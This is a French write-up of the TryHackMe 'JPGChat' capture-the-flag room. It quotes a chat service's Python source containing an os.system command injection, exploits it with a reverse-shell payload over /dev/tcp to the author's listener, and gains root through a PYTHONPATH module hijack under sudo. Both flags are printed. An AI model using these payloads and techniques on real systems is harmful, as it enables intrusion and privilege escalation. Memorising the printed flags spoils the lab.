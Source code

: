 # JPGChat #

## Task 1 Flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.69.76 jpgchat.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A jpgchat.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 18:03 CEST
Nmap scan report for jpgchat.thm (10.10.69.76)
Host is up (0.055s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
|_  256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.91%I=7%D=8/11%Time=6113F4FE%P=x86_64-pc-linux-gnu%r(NU
SF:LL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20this\x20
SF:service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\nMESSAG
SF:E\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(currentl
SF:y\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x20to\x20
SF:report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n")%r(Gen
SF:ericLines,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20t
SF:his\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\
SF:nMESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(c
SF:urrently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x2
SF:0to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n"
SF:);
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/11%OT=22%CT=1%CU=40706%PV=Y%DS=2%DC=T%G=Y%TM=6113F51
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=Z%II=I%TS=8)SEQ(SP=1
OS:04%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%
OS:TS=8)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5
OS:=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=
OS:68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
OS:%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   31.89 ms 10.9.0.1
2   40.76 ms jpgchat.thm (10.10.69.76)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.27 seconds

```

Le scan nmap nous montre 2 service :
Le service SSH sur le port 22.    
Un service inconnu sur le port 3000.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc jpgchat.thm 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

On se connect sur le service avec netcat et on voit dans le message d'accueil un nom qui est JPGChat.   

On fait une recherche sur un moteur de recherche sur JPGChat et on trouve le code source.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/Mozzie-jpg/JPChat/main/jpchat.py -nv
2021-08-11 18:13:48 URL:https://raw.githubusercontent.com/Mozzie-jpg/JPChat/main/jpchat.py [892/892] -> "jpchat.py" [1]
tim@kali:~/Bureau/tryhackme/write-up$ cat jpchat.py 
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

On regarde le code source.   
On remarque qu'il y a plusieurs failles de sécurités.   
On exécutes les commandes directement avec os.systemm.  
On mette la variable saisie à la fin de la commande.   
Dans la saisie il y a pas de filtrage de caractères interdit.   

On va exploiter la faille avec un reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port pour avoir le reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc jpgchat.thm 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
tim@kali:~/Bureau/tryhackme/write-up$ nc jpgchat.thm 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
personne;bash -i >& /dev/tcp/10.9.228.66/1234 0>&1;
your report:
rien
personne
```

**Establish a foothold and get user.txt**

On exploit la faille.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.69.76] 44744
bash: cannot set terminal process group (1421): Inappropriate ioctl for device
bash: no job control in this shell
wes@ubuntu-xenial:/$ id
id
uid=1001(wes) gid=1001(wes) groups=1001(wes)
wes@ubuntu-xenial:/$ cat /home/wes/user.txt
cat /home/wes/user.txt
JPC{487030410a543503cbb59ece16178318}
wes@ubuntu-xenial:/$ 

```

On obtient un shell.  
On lit le fichier user.txt.    

La réponse est : JPC{487030410a543503cbb59ece16178318}    

**Escalate your privileges to root and read root.txt**

```bash
wes@ubuntu-xenial:/$ sudo -l
sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

Dans la configuration sudo on peut exécuter un fichier test_module.py sans mot de passe.   

```bash
ls -al /opt/development/test_module.py
-rw-r--r-- 1 root root 93 Jan 15  2021 /opt/development/test_module.py

wes@ubuntu-xenial:/$ cat  /opt/development/test_module.py
cat  /opt/development/test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))

```

Ici on voit que l'on a pas les droits en écriture sur le fichier.   
On voit que python compare une chaîne avec un autre grace à un module du nom de compare.  
Il est possible d'usurper le chemin d'un module en modifiant la variable PYTHONPATH.

```bash
wes@ubuntu-xenial:/$ cd /tmp/	
cd /tmp/

wes@ubuntu-xenial:/tmp$ export PYTHONPATH=$PWD
export PYTHONPATH=$PWD

wes@ubuntu-xenial:/tmp$ cat > compare.py << EOF
cat > compare.py << EOF
> #!/usr/bin/env python3
#!/usr/bin/env python3
> import os
import os
> os.system("/bin/bash")
os.system("/bin/bash")
> EOF
EOF

wes@ubuntu-xenial:/tmp$ sudo /usr/bin/python3 /opt/development/test_module.py
sudo /usr/bin/python3 /opt/development/test_module.py
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
JPC{665b7f2e59cf44763e5a7f070b081b0a}

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF

```

On se met dans le répertoire \∕tmp on est sûre de pouvoir écrire dedant.   
On créer la variable PYTHONPATH avec comme valeur l'endroit où on va faire notre faux module.   
On créer notre faut module qui va exécuter un shell bash.   
On exécute le script avec sudo, notre faux module va être appelé.    
On obtient un shell avec les droits root.   
On lit le fichier root.txt.    

La réponse est : JPC{665b7f2e59cf44763e5a7f070b081b0a}    